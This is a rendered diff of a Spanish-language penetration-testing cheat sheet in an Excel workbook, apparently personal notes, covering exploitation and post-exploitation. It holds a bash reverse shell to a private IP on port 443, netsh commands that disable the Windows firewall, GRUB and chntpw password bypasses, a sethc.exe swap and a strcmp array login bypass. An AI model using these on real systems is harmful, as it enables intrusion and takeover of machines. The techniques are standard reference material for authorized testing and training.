

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-J26: netsh firewall show opmode
+J26: (empty)
-K26: Para ver el estado del firewall
+K26: (empty)
-L26:L27: shell windows
+L26:L27: (empty)
-Z26: (empty)
+Z26: -c 'nohup bash -i >& /dev/tcp/10.10.10.10/443 0>&1 &'
-AA26: (empty)
+AA26: Para en una ejecución de comandos mandarnos una reverse shell en bash a nuestra maquina
-J27: netsh firewall set opmode mode = disable profile = all
+J27: EVASION
+J27:L27 merged
-K27: Desactivar firewall
+K27: (empty)
-J28: netsh firewall set opmode mode = disable
+J28: Comando
-K28: Desactivar firewall
+K28: Descripcion
-L28: shell windows
+L28: Anotaciones
-Z28: REG / NET
+Z28: REG / NET / NETSTAT
-J29: Koon-bot
+J29: netsh firewall show opmode
-K29: Parchear inicio de windows-mac para acceder sin saber la contraseña
+K29: Para ver el estado del firewall
-L29: No puede autenticar sistemas en RED
+L29: shell windows
-J30: ro i\initd=/install
+J30: netsh firewall set opmode mode = disable profile = all
-K30: Borramos toda la linea y ponemos rw i\initd=/bin/bash y guardamos, al iniciar nos iniciara una shell con root, y se puede usar passwd siendo root para cambiar la contraseña
+K30: Desactivar firewall
-L30: Unix Grub pulsar e para editar los comandos del boot probar a usar startx entorno grafico
+L30: shell windows
-J31: chntpw
+J31: netsh firewall set opmode mode = disable
-K31: Atacamos la SAM con windows apagado y añadimos un usuario administrador con contraseña vacia desde linux
+K31: Desactivar firewall
-L31: O podemos quitarle la contraseña a administrador
+L31: shell windows
-J32: sethc.exe
+J32: Koon-bot
-K32: Sustitucion de archivos binario de accesibilidad en windows, para arrancar cmd y cambiar contraseña
+K32: Parchear inicio de windows-mac para acceder sin saber la contraseña
-L32: winlogon se ejecuta como system y podemos cambiar la contraseña con net user
+L32: No puede autenticar sistemas en RED
-B33: (empty)
+B33: BOF / IMMUNITY / MONA
+B33:D33 merged
-J33: username=admin&password[]=admin
+J33: ro i\initd=/install
-K33: Si en un panel de login usa la funcion strcmp (stringcompare) para comparar la password con algo ya definido y usamos un array [] nos podemos saltar el loggin
+K33: Borramos toda la linea y ponemos rw i\initd=/bin/bash y guardamos, al iniciar nos iniciara una shell con root, y se puede usar passwd siendo root para cambiar la contraseña
-L33: (empty)
+L33: Unix Grub pulsar e para editar los comandos del boot probar a usar startx entorno grafico
```
Also changed, not shown: 12 added rows, 12 removed rows, 154 edited cells and merged cells elsewhere in this sheet, sheet General, sheet Red Team, sheet Enumeracion & Escaneos, sheet Inyecciones, sheet Interceptadores & Web, sheet Reversing & Forensics, cell formats.
